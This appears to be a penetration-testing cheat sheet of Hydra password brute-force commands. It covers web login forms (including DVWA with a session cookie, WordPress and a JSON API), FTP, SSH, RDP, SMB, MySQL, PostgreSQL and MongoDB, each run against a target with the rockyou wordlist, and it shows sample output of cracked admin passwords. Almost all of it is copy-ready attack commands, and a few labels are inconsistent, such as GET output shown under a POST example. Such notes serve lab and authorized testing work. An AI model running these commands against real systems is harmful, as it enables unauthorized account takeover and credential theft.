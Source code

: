 #### Hydra URL Forms

```bash - kali
hydra $TARGET -s 80 http-get / -l $USER -P /usr/share/wordlists/rockyou.txt -vV -f -t 3
```

The above form, part of the <u>/form/login.html page</u>, indicates that the POST request is handled by <u>/form/frontpage.php</u>, which is the URL we will feed to Hydra.  Since we are attacking the admin user login with a wordlist, the combined argument to Hydra becomes:  ==(IS IT "http-form-post" OR "http-post-form")?==
```bash - kali
hydra $TARGET -s 80 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f -t 3
```

If you get multiple results:
```
[80][http-get-form] host: targets.local login: admin password: iloveyou
[80][http-get-form] host: targets.local login: admin password: 123456
[80][http-get-form] host: targets.local login: admin password: 12345
[80][http-get-form] host: targets.local login: admin password: princess
[80][http-get-form] host: targets.local login: admin password: nicole
[80][http-get-form] host: targets.local login: admin password: daniel
[80][http-get-form] host: targets.local login: admin password: babygirl
[80][http-get-form] host: targets.local login: admin password: lovely
```

Try adding a cookie, like:
```bash - kali
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 80 targets.local http-get-form "/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=5r9mcj6pgqd910hrlr6l4is0tk"
```

OTHER EXAMPLES:
```bash - kali
hydra -l admin -P /usr/share/wordlists/rockyou.txt $TARGET -s 8081 http-post-form "/login.php:user=admin&pass=^PASS^:Invalid Password!" -t 3
```
```bash - kali
hydra -l none -P rockyou.txt $TARGET http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password" -t 64 -V
```
```bash - kali
hydra -L users -p passwords -t 10 $TARGET http-get-form "/ajax.php:fun=login&username=^USER^&password=^PASS^:invalid user" -f -t 3
```
```bash - kali
hydra -l webdeveloper -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt $TARGET -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -f -t 3
```
```bash - kali
hydra -L users -P /usr/share/wordlists/rockyou.txt -s 80 $TARGET http-post-form "/login:{'username'\:'^USER^','password'\:'^PASS^'}:failed" -f -t 3
```

==Lower the number of tasks in parallel, if having issues (Default is 16).==

```bash - kali
-t 3
```

### Hydra against JSON:
```bash - kali
hydra -l myP14ceAdm1nAcc0uNT -P /usr/share/wordlists/rockyou.txt $TARGET -s 3000 http-post-form "/api/session/authenticate:{\"username\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:Authenticatio n failed:H=Content-Type\: application/json" -t 64
```
#### Hydra aginst multiple IPs w/ lists
```
hydra -l users.txt -P pass.txt -M IPs.txt ssh
```
#### Hydra against FTP
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET ftp -vvv -f -s 21 -t 3
```
#### Hydra against Mongo
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET mongodb -vvv -f -s 27017 -t 3
```
#### Hydra against MySQL
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET mysql -vvv -f -s 3306 -t 3
```
#### Hydra against Postgresql
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET postgres -vvv -f -s 5437 -t 3
```
#### Hydra against RDP
```bash - kali
hydra -l blake -P /usr/share/wordlists/rockyou.txt $TARGET rdp -vvv -f -s 3389 -t 3
```
#### Hydra against SSH
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET ssh -vvv -f -s 22 -t 3
```
#### Hydra against SMB
```bash - kali
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET smb -vvv -f -s 445 -t 3
```
#### Hydra against WordPress
```bash
hydra -vV -L users -P /usr/share/wordlists/rockyou.txt $TARGET http-post-form '/wordpress/wp-login.php:log=^USER^&pwd&wp-submit=Log+In:F=is incorrect' -f -t 3
```